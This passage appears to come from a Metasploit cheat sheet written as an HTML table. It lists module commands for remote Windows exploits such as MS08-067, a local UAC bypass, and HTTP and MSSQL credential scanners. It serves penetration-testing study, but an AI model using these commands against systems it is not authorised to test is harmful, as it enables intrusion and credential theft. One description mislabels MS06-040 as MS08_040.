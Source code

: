  <td>Meterpreter delete port forward</td> 
 </tr> 
 </tbody> 
 </table> 
 <h2>Common Metasploit Modules</h2> 
 <h3>Remote Windows Metasploit Modules (exploits)</h3> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>use exploit/windows/smb/ms08_067_netapi</td> 
 <td>MS08_067 Windows 2k, XP, 2003 Remote Exploit</td> 
 </tr> 
 <tr> 
 <td>use exploit/windows/dcerpc/ms06_040_netapi</td> 
 <td>MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit</td> 
 </tr> 
 <tr> 
 <td>use exploit/windows/smb/<br> 
 ms09_050_smb2_negotiate_func_index</td> 
 <td>MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit</td> 
 </tr> 
 </tbody> 
 </table> 
 <h3>Local Windows Metasploit Modules (exploits)</h3> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>use exploit/windows/local/bypassuac</td> 
 <td>Bypass UAC on Windows 7 + Set target + arch, x86/64</td> 
 </tr> 
 </tbody> 
 </table> 
 <h3>Auxilary Metasploit Modules</h3> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>use auxiliary/scanner/http/dir_scanner</td> 
 <td>Metasploit HTTP directory scanner</td> 
 </tr> 
 <tr> 
 <td>use auxiliary/scanner/http/jboss_vulnscan</td> 
 <td>Metasploit JBOSS vulnerability scanner</td> 
 </tr> 
 <tr> 
 <td>use auxiliary/scanner/mssql/mssql_login</td> 
 <td>Metasploit MSSQL Credential Scanner</td> 
